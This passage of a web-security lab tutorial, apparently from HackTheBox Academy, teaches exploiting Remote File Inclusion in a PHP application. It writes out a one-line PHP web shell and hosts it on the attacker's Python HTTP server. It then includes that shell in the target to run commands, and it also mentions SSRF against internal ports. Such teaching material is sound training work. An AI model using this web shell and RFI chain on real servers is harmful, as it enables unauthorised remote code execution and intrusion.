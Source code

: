 As we can see, the `index.php` page got included in the vulnerable section (i.e. History Description), so the page is indeed vulnerable to RFI, as we are able to include URLs. Furthermore, the `index.php` page did not get included as source code text but got executed and rendered as PHP, so the vulnerable function also allows PHP execution, which may allow us to execute code if we include a malicious PHP script that we host on our machine.

We also see that we were able to specify port `80` and get the web application on that port. If the back-end server hosted any other local web applications (e.g. port `8080`), then we may be able to access them through the RFI vulnerability by applying SSRF techniques on it.

Note: It may not be ideal to include the vulnerable page itself (i.e. index.php), as this may cause a recursive inclusion loop and cause a DoS to the back-end server.

### Remote Code Execution with RFI

The first step in gaining remote code execution is creating a malicious script in the language of the web application, PHP in this case. We can use a custom web shell we download from the internet, use a reverse shell script, or write our own basic web shell as we did in the previous section, which is what we will do in this case:

Remote File Inclusion (RFI)

```shell-session
root@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Now, all we need to do is host this script and include it through the RFI vulnerability. It is a good idea to listen on a common HTTP port like `80` or `443`, as these ports may be whitelisted in case the vulnerable web application has a firewall preventing outgoing connections. Furthermore, we may host the script through an FTP service or an SMB service, as we will see next.

### HTTP

Now, we can start a server on our machine with a basic python server with the following command, as follows:

Remote File Inclusion (RFI)

```shell-session
root@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
```

Now, we can include our local shell through RFI, like we did earlier, but using `<OUR_IP>` and our `<LISTENING_PORT>`. We will also specify the command to be executed with `&cmd=id`:

![](https://academy.hackthebox.com/storage/modules/23/rfi\_localhost.jpg)

As we can see, we did get a connection on our python server, and the remote shell was included, and we executed the specified command:

Remote File Inclusion (RFI)

```shell-session
root@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...

SERVER_IP - - [SNIP] "GET /shell.php HTTP/1.0" 200 -
```
